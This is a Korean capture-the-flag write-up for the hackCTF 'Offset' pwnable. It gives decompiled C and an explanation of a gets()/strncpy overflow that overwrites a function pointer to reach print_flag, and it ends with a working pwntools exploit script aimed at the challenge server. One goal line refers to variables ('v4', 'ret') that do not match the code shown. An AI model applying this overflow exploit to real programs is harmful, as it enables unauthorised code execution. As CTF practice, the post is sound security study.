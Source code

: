 ```yaml
---
layout: post
title:  "[hackCTF]Offset"
date:   2020-02-18
---
```


hackCTF pwnable 8번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1h] [ebp-27h]
  int * v5; // [esp+20h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, (char * )&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(&s);
  select_func(&s);
  return 0;
}
```

## ida - select_func
```c
int __cdecl select_func(char *src)
{
  char dest; // [esp+Eh] [ebp-2Ah]
  int (*v3)(void); // [esp+2Ch] [ebp-Ch]

  v3 = (int (*)(void))two;
  strncpy(&dest, src, 0x1Fu); // src의 값을 dest에 저장한다
  if ( !strcmp(&dest, "one") ) // dest의 값이 "one"이면
    v3 = (int (*)(void))one; // v3에 one함수의 주소를 저장한다
  return v3();
}
```

## ida - one
```c
int one()
{
  return puts("This is function one!");
}
```

#ida - print_flag
```c
int print_flag()
{
  char i; // al
  FILE * fp; // [esp+Ch] [ebp-Ch]

  puts("This function is still under development.");
  fp = fopen("flag.txt", "r");
  for ( i = _IO_getc(fp); i != -1; i = _IO_getc(fp) )
    putchar(i); // flag 값을 출력한다
  return putchar(10);
}
```

#ida - two
```c
int two()
{
  return puts("This is function two!");
}
```
<br>

정리해보자.<br><br>

***

|  v3  | esp+0x2C |
|:----:|:--------:|
|  ... |          |
| dest |  esp+0xE |

***
<br>
select_func에서 src의 값을 dest에 저장할 때 print_flag함수 주소로 v3까지 덮으면 return v3();에서 print_flag를 실행할 수 있을 것이다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>
+) print_flag Offset
![0801](https://drive.google.com/uc?id=1KA2RAABGsf9_88UeDV2rig8vzczPHF_X)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = "A"*(0x2c-0xe)+p32(0x000006D8)

p.sendline(payload)

p.interactive()
```

## 결과
![0802](https://drive.google.com/uc?id=1YaANIi0dWPXCjXTlp2WlS9nFo8QoMulG)
